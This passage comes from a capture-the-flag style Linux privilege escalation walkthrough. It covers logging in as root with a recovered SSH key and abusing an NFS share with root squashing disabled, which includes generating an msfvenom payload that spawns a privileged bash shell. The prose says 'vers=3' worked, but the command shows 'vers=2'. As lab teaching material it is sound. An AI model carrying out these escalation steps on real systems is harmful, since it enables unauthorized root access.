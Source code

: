 ```
chmod 600 root_key
```

![image](https://user-images.githubusercontent.com/14150485/172824993-2a2bd3ca-f02a-4880-a82e-08026b8e0f2c.png)

Now we can connect to the target via `ssh` from our machine using the RSA file:

```
ssh -i FILE_NAME root@TARGET_IP
```

![image](https://user-images.githubusercontent.com/14150485/172825171-eb5f6482-405b-4278-93bb-9ca99a5cfc5e.png)

<br/>

#### 18.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>

### 19: NFS

Files created via NFS inherit the remote user's ID. If the user is root and root squashing is enabled, the ID will instead be set to `nobody`. We can check the NFS configuration on this machine:

```
cat /etc/exports
```

![image](https://user-images.githubusercontent.com/14150485/172826152-e0de3b10-ea9d-4fa9-a9fb-5ada8866a28f.png)

Root squashing on the `/tmp` share seems to be disabled. Follow the instructions to switch to root:

```
su root
```

Now as root on our local machine we will be creating a mount point that we can use to mount the `/tmp` share - Please note that `vers=3` worked for me when mounting the share:

```
mkdir /tmp/nfs
mount -o rw,vers=2 REMOTE_IP:/tmp /tmp/nfs
```

![image](https://user-images.githubusercontent.com/14150485/172828679-2f6b9150-920c-484f-8cb8-e67566f5421e.png)

Follow the instructions to generate an `mfsvenom` payload in the mounted share:

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172828996-2201ee3b-3804-48a7-8b62-7f40d8b99b8b.png)
